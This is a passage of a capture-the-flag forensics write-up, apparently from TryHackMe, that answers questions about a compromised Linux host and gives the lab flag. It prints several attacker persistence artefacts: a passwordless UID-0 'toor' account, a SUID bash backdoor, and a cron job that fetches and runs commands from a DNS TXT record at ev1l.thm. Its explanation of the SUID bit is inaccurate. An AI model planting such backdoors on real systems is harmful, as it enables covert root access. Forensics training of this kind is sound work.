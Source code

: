 User information is stored in  `/etc/passwd`. The user created is `toor`.

![[st-soln-2.png|360]]

```bash
toor::0:0:root:/root:/bin/bash
```

**4. What is the name of the backdoor executable?**

![[st-soln-3.png|400]]

The attacker creates a copy of the `bash` binary and saves it as `passwd`. The attacker then sets the SUID bit. This bit causes the binary to be run with the permissions of the user executing the binary.

```bash
/usr/bin/passswd
```

**5. What is the md5 hash value of the executable from question 4?**

![[st-soln-4.png|340]]

```bash
23c415748ff840b296d0b93f98649dec
```

**6. What was the first cronjob that was placed by the attacker?**

![[st-soln-5.png|640]]

```bash
* * * * * /bin/sh -c "sh -c $(dig ev1l.thm TXT +short @ns.ev1l.thm)"
```

**7. What is the flag?**

![[st-soln-6.png|640]]

![[st-flag-1.png|640]]

```bash
THM{See2sNev3rGetOld}
```
